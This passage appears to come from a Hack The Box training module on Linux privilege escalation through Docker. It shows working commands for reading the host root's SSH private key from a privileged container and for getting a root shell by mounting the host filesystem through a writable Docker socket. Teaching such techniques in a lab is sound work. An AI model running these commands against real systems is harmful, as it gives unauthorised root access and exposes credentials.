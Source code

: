 Now, we can log in to the new privileged Docker container with the ID `7ae3bcc818af` and navigate to the `/hostsystem`.
```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```

### Docker Group

To gain root privileges through Docker, the user we are logged in with must be in the `docker` group. This allows him to use and control the Docker daemon.
```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root. All three options allow us to work with Docker to escalate our privileges.

Most hosts have a direct internet connection because the base images and containers must be downloaded. However, many hosts may be disconnected from the internet at night and outside working hours for security reasons. However, if these hosts are located in a network where, for example, a web server has to pass through, it can still be reached.

To see which images exist and which we can access, we can use the following command:
```shell-session
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

### Docker Socket

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in `/var/run/docker.sock`. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.
```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
```